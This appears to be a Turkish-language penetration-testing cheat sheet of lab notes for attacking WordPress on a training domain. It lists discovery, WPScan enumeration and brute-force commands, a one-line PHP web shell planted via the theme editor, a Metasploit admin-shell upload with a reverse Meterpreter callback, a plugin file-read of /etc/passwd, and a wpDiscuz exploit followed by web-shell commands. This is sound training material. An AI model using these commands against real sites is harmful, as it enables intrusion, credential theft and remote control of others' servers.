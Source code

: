 ```yaml
---
{"dg-publish":true,"permalink":"/cheat-sheet/attacking-common-applications-cheat-sheet/"}
---
```



#### Nmap - Web Discovery

```shell-session
nmap -p 80,443,8000,8080,8180,8888,10000 --open -oA web_discovery -iL scope_list 
```


#### EyeWitness ile Web Uygulamalarının Ekran Görüntülerini Alma

```
eyewitness --web -x web_discovery.xml -d inlanefreight_eyewitness
```


#### Aquatone ile Nmap Çıktılarıyla Web Uygulamalarını Keşfetme ve Ekran Görüntüsü Alma

```
cat web_discovery.xml | ./aquatone -nmap
```


----

### WordPress Tespiti

```
curl -s http://blog.inlanefreight.local | grep WordPress
```


### WordPress Tema Bilgisi Tespiti

```
curl -s http://blog.inlanefreight.local/ | grep themes
```


### WordPress Plugin Bilgisi Tespiti

```shell-session
curl -s http://blog.inlanefreight.local/?p=1 | grep plugins
```


### WordPress Zafiyet Tarama ve Numaralandırma

```
sudo wpscan --url http://blog.inlanefreight.local --enumerate --api-token dEOFB<SNIP>
```


---

### WPScan ile XML-RPC Üzerinden WordPress Şifre Kırma Saldırısı

```shell-session
sudo wpscan --password-attack xmlrpc -t 20 -U username -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```


### WordPress Üzerinden PHP Dosyası Düzenleyerek Sistem Komutları Çalıştırma

- **Appearance > Theme Editor**
- **Transport Gravity'yi pas geç**
- **Twenty Nineteen temasını seç**
- **404.php dosyasını düzenle**
- **Kod ekle:**
- Update File  

```php
system($_GET[0]);
```

http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?cmd=whoami


### Metasploit ile WordPress Yönetici Panelinden Shell Erişimi Alma

```shell-session
msf6 > use exploit/unix/webapp/wp_admin_shell_upload 

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.local
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.15 
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.129.42.195  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST blog.inlanefreight.local
```


### Mail Masta Plugin'i ile WordPress'te Dosya Okuma Zafiyeti Kullanımı

```
curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```



### WP Discuz Eklentisi ile WordPress Zafiyetinin Kullanımı

```
python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1
```

 * -p geçerli bir path'in

Yazılan exploit başarısız olabilir, ancak yüklenen web shell'i kullanarak komutları çalıştırmak için cURL kullanabiliriz.

```
curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id
```


